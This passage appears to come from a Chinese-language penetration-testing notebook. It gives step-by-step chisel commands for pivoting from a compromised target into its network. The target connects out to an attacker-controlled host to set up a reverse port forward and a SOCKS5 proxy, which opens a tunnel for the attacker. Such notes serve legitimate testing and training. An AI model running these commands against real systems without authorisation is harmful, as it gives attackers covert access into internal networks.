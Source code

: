 	https://github.com/jpillora/chisel/releases
	攻击机监听
	>chisel.exe server -p 12138 --reverse
![image](/assets/Pentest_Note/master/img/364.png)

	靶机执行
	>chisel.exe client 192.168.0.102:12138 R:12345:127.0.0.1:12346
![image](/assets/Pentest_Note/master/img/365.png)

	靶机执行
	>chisel.exe server -p 12346 --socks5
![image](/assets/Pentest_Note/master/img/366.png)

	攻击机执行
	>chisel.exe client 127.0.0.1:12345 socks
![image](/assets/Pentest_Note/master/img/367.png)

	当隧道建立成功时，攻击机本地会启动1080端口
![image](/assets/Pentest_Note/master/img/368.png)

	即可使用
